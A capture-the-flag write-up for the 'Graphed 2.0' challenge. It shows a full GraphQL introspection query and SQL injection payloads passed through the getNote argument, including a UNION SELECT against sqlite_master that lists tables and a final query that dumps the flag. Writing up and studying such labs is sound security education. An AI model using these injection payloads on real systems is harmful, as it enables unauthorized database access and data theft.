

# Graphed 2.0
We were given the challenge text:
```
graphed notes is finally here !!!!!! but it looks like something is still broken with that site

EU instance

US instance

author: pop_eax
```

On the website there's a text field, and a submit button. If you try to submit text, all you get is an error.

If we look at the source code, we see that there's some JavaScript that's commented out.
```js
<script>
function create_note() {
    alert("sorry but this functionality is disabeled due to technical problems");
    //query_data = `mutation {createNote(body:${document.getElementById("note-content").value}, title:"anon note", username:"guest"){note{uuid}}}`;
    //fetch(`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`, {method: "POST"});
}
</script>
```

If we try to curl to the endpoint GraphQL endpoint, we see that it still exists. I've never interacted with GraphQL before, but [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection) had lots of info about exploiting GraphQL. The first thing I did was dumping the entire database schema using this query:
```
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```
Nothing in particular looked interesting to me at first, until I saw an example of [GraphQL SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#sql-injection). One of the query fields, `getNote`, took an argument, `q`.
```json
{
    "name": "getNote",
    "description": null,
    "args": [
    {
        "name": "q",
        "description": null,
        "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
        },
        "defaultValue": null
    }
    ],
    "type": {
    "kind": "LIST",
    "name": null,
    "ofType": {
        "kind": "OBJECT",
        "name": "NoteObject",
        "ofType": null
    }
    },
    "isDeprecated": false,
    "deprecationReason": null
}
```
(Schema for `getNote` from the full dump)

I tried sending the payload `{getNote(q:"'") {uuid}}`, and I got results! I then searched for how to list SQLite3 database names, `SELECT name FROM sqlite_master`. I then tried a UNION SELECT attack. Since I already knew that `getNote` normally returned 4 columns from testing, I sent the payload `{getNote(q:"' UNION SELECT name,name,name,name FROM sqlite_master --")} {uuid}`. This gave me all the databases.
```json
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_Notes_title', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_users_username', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('\u0627\u0644\u0639\u0644\u0645', 2, 3, 4)\"."
    }
  ],
  "data": {
    "getNote": [
      null,
      null,
      null,
      null,
      null
    ]
  }
}
```

The last database looked particularly suspicious, and with the query `{getNote(q:"' UNION SELECT *,* FROM \u0627\u0644\u0639\u0644\u0645 --") {uuid}}` I got the flag.
```json
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 0, \"flag{h0p3_u_can't_r3@d_1t9176}\")\"."
    }
  ],
  "data": {
    "getNote": [
      null
    ]
  }
}
```

The flag was `flag{h0p3_u_can't_r3@d_1t9176}`.